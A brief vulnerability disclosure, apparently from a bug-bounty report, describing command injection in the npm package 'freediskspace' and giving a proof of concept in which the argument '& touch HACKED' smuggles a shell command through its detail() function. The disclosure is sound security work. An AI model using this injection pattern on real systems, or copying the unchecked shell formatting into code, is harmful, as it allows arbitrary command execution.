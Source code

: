 # Overview

The issue occurs because a `user input` is formatted inside a `detail` that will be executed without any check.

# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var a = require("freediskspace");
a.detail("& touch HACKED",function(){})
```

1. Check there aren't files called `HACKED`
1. Execute the following commands in another terminal:

```bash
npm i freediskspace # Install affected module
node poc.js #  Run the PoC
```

1. Recheck the files: now `HACKED` has been created :)
